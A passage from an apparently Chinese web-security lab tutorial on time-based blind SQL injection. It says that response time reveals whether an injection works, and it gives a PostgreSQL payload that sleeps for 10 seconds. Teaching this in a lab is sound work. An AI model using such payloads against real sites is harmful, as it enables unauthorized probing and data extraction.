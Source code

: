 ## 2.14. **具有时间延迟的SQL盲注**

这里通过返回的时间来判断注入是否正确。

### 2.14.1. **开启靶场**

![img](assets/%E5%9B%BE%E7%89%87%2067.png) 

### 2.14.2. **延迟10秒**

```
payload：'||pg_sleep(10)--
```
